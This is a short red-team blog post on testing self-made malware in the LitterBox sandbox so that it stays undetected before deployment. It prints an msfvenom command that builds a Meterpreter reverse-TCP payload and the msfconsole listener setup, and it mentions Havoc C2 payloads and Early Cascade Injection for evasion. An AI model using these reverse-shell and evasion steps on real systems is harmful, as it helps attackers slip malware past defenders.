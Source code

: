 ```yaml
---
layout: post
title: "LitterBox: The Sandbox for Malware Developers"
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is important to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Recommended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![[/assets/Screenshot-2025-01-21-161217.png]]
![[/assets/Screenshot-2025-01-21-161301.png]]
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![[/assets/Screenshot-2025-01-21-151238.png]]
##### Active Process Inspection
![[/assets/Screenshot 2025-01-21-162202.png]]

![[/assets/Screenshot-2025-01-21-162224.png]]

![[/assets/Screenshot-2025-01-21-162318.png]]
#### Commercial C2
![[Pasted-image-20250122185634.png]]
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![[/assets/Pasted-image-20250122184535.png]]
